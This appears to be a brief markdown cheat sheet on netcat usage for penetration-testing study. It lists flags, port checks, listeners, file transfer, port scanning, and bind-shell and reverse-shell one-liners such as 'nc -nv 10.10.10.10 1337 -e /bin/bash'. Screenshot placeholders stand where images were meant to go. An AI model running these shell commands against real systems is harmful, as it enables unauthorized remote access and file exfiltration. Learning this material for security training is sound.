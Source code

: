 # ncat 

* ***connect to tcp/udp***
*  ***check if a port open or closed***
*  ***read a banner from a service Listening on a port***
*  ***connect to a service manually***

```shell
nc -nv 192.168.10.1 22 
```
screen shot 

* ***command flags***
```
-l: Listen mode 
-L: Listen harder ( WINDOWS VERSION ).
-u: UDP 
-p: Local port 
-e: Program to execute after connection occurs ( cmd.exe , /bin/bash .....)
-n: Don’t perform DNS lookups on names of machines on the other side
-z: Zero-I/O mode (Don’t send any data, just emit a packet without payload)
-wN: Timeout for connects, waits for N seconds after closure of STDIN. 
-v: verbose mode .
-vv: Be very verbose .
```

* ***Listening on a tcp/udp***

```shell
nc -nvlp 1337

```
scrren shot 

* ***File Transfer***

```shell
nc -nvlp 1337 > out_file.txt
```
```shell
nc -nv 10.10.10.10 1337 < ~/home/mastermind/in_file.txt
```

screen shots 

* ***bind shell*** 
```shell
nc -lnvp 1337 -e cmd.exe
```
```shell
nc -nv target_ip port 
```

* ***Reverse Shell***
```shell
nc -lnvp 1337 
```
```shell
nc -nv 10.10.10.10 1337 -e /bin/bash
```
* ***Port Scanner***

```shell
nc -nvz -w3 10.10.10.10 100-120  # 100-120 ip range
```
screnn shot 
